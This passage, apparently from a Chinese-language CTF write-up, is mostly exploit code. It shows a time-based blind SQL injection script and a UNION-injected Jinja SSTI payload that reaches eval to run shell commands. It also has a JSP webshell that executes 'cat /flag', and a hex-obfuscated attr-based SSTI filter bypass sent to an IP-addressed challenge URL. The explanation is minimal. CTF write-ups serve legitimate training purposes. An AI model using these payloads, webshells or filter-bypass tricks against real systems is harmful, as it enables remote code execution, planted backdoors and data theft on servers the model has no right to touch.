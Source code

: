 ```python
		try:
			now = time.time()
			res = requests.post(url,data = data)
			#print(time.time()-now)
			if time.time()-now >0.3 :   # zhen
				min = mid +1 
			else:
				max = mid 
		except Exception as e:
			print  e
		mid = (max + min)// 2

	flag = flag + chr(int(mid))
	print flag

```



得到密码 sqlite_not_safe



联合查询 存在ssti

```sql
‘ union select '{ % for c in [].__class__.__base__.__subclasses__() % }{ % if c.__name__=="catch_warnings" % }{ {  c.__init__.__globals__["__builtins__"].eval("__import__(\"os\").popen(\"cat * |grep flag\").read()") } }{ % endif % }{ % endfor % }' --'
```



### WEBSHELL_1

直接上传一个jsp文件执行命令即可。

```jsp
<%
        java.io.InputStream in = Runtime.getRuntime().exec("cat /flag").getInputStream();;
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
%>
```

### MINE2

双引号与attr没有被过滤

所以可以16进制绕过加结合attr

```python
http://124.70.199.122:32075/success?msg={ %print(()|attr(%22\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f%22)|attr(%22\x5f\x5f\x6d\x72\x6f\x5f\x5f%22)|attr(%22\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f%22)(1)|attr(%22\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f%22)()|attr(%22\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f%22)(202)|attr(%22\x5f\x5f\x69\x6e\x69\x74\x5f\x5f%22)|attr(%22\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f%22)|attr(%22\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f%22)(%22\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f%22)|attr(%22\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f%22)(%22eval%22)(%22\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x70\x6f\x70\x65\x6e\x28\x27\x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x74\x78\x74\x27\x29\x2e\x20\x72\x65\x61\x64\x28\x29%22))% }
```
